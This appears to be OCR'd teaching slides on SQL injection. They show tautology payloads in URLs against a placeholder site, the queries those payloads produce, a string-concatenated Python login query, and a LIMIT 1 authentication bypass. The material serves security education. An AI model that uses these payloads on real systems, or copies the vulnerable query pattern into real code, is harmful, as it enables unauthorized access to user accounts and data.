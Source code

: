 

#### Comment

URL entered:

```
https://test.com/find_user?email=sajeeb.lohani@unimelb.edu.au’ or 1=1 --
```

SQL query becomes:

```
“SELECT * FROM users WHERE email=‘sajeeb.lohani@unimelb.edu.au’ or 1=1 -- ’;”
```

Query selects all rows with sajeeb.lohani@unimelb.edu.au and all other rows too

* 1=1 is a tautology
* -- comments out the remainder of the query (ignored by the database)
* (other possible comments include, #, //, /*)

http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet



#### No Comment

URL entered:

```
https://test.com/find_user?email=sajeeb.lohani@unimelb.edu.au’ or ‘1’=‘1
```

SQL query becomes:

```
“SELECT * FROM users WHERE email=‘sajeeb.lohani@unimelb.edu.au’ or ‘1’=‘1’;”
```

1=1 is a tautology -> Completes the query without causing an error



#### Authentication

Python:

```
“SELECT * FROM users WHERE email=‘” + request.args[‘email’] + “’ AND password = ’” + request.args[‘password’] + “’;”
```

URL entered:

```
https://test.com/find_user?email=sajeeb.lohani@unimelb.edu.au&password=password

Bypass:
https://test.com/find_user?email=sajeeb.lohani@unimelb.edu.au’ or 1=1 -- &password=password

If the application checks if only one user is retrieved:
URL entered: https://test.com/find_user?email=sajeeb.lohani@unimelb.edu.au’ 
or 1=1 LIMIT 1 -- &password=password
```
